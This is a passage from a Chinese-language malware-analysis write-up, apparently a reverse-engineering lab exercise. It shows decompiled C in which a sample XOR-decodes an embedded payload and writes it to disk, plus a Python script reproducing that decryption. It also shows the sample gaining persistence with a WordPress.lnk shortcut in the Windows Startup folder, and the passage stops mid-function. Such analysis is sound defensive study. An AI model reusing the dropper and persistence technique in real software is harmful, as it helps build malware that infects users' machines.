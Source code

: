           do
            *((_BYTE *)lpBuffer + counter++) = *v5-- ^ 6;
          while ( counter < 0x10 );
          WriteFile(FileA, lpBuffer, 0x10u, &NumberOfBytesWritten, 0);
        }
        operator delete(lpBuffer);
        CloseHandle(FileA);
      }
    }
    ```
    :::
    我簡單的寫了一個python script去驗證他，如下:
    :::spoiler
    ```python!
    from Crypto.Util.number import long_to_bytes

    BUFFER_SIZE = 16
    num_iterations = 2816

    lpBuffer = b""
    unk_10005030 = open('Enc_Task_exe.txt', 'r').read().split(' ')
    FileA = open('Dec_Task_exe.txt', 'wb')

    # Loop through the iterations
    for i in range(num_iterations):
        counter = 15
        while counter >= 0:
            current_byte = unk_10005030[i * BUFFER_SIZE + counter]
            lpBuffer += long_to_bytes(ord(bytes.fromhex(current_byte)) ^ 6)
            counter -= 1

    FileA.write(lpBuffer)
    ```
    :::
    同時他也create了一個LNK file在
    ```
    C:\Users\REM\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\WordPress.lnk
    ```
    詳細的c code如下
    :::spoiler
    ```clike!
    void CreateLNK(char *a1, char *a2, char *a3, char *a4, ...)
    {
      void *v4; // ecx
      bool v5; // sf
      int v6; // edx
      LPVOID ppv; // [esp+40h] [ebp-4h] BYREF
      void *retaddr; // [esp+44h] [ebp+0h]
      int v9; // [esp+58h] [ebp+14h]
      va_list va; // [esp+5Ch] [ebp+18h] BYREF

      va_start(va, a4);
      v9 = va_arg(va, _DWORD);
      ppv = v4;
      if ( CoInitialize(0) >= 0 )
      {
        if ( CoCreateInstance(&rclsid, 0, 1u, &riid, &ppv) >= 0 )
        {
          (*(*ppv + 80))(ppv, a1, ppv);
          (*(*retaddr + 44))(retaddr, a3);
          (*(*retaddr + 68))(retaddr, v9, 0);
          (*(*retaddr + 60))(retaddr, 7);
          if ( (**retaddr)(retaddr, &unk_10004100, &a2) >= 0 )
          {